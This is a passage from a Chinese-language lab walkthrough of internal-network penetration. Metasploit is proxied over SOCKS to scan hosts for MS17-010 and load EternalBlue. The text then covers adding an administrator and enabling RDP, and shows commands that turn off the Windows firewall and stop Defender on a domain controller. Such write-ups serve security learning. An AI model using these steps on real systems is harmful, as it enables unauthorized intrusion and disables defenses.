 ```shell
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.05 seconds

```
扫描发现都开了445端口，

本地启动Metasploit，挂上代理，就可以对目标内网进行各种探测搜集。如 探测目标内网中存在MS17_010漏洞的主机，这也是内网拿主机权限利用方式之一。
```shell
msf5 > setg Proxies socks4:192.168.54.130:1024 #让msf所有模块的流量都通过此代理走。(setg全局设置)
msf5 > setg ReverseAllowProxy true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置此项)
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 > set rhosts 192.168.52.138-141
msf5 > set threads 100
msf5 > run

[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.52.138
rhosts => 192.168.52.138
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.52.138:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

```

#### 针对域内机器192.168.52.141

尝试ms17-010，直接拿不到shell，发现可以使用auxiliary/admin/smb/ms17_010_command来执行一些命令且是系统权限，于是执行新建用户添加管理员，打开3389，然后通过proxychains远程桌面连接
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200411235737928.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70#pic_center)


#### 针对域控制器192.168.52.138
开始尝试使用smb漏洞反弹，一直不成功，试着关闭防火墙
```shell
msf5 auxiliary(admin/smb/ms17_010_command) > set COMMAND netsh advfirewall set allprofiles state off
COMMAND => netsh advfirewall set allprofiles state off
msf5 auxiliary(admin/smb/ms17_010_command) > run
[*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(admin/smb/ms17_010_command) > set COMMAND net stop windefend
COMMAND => net stop windefend
msf5 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(admin/smb/ms17_010_command) >
```
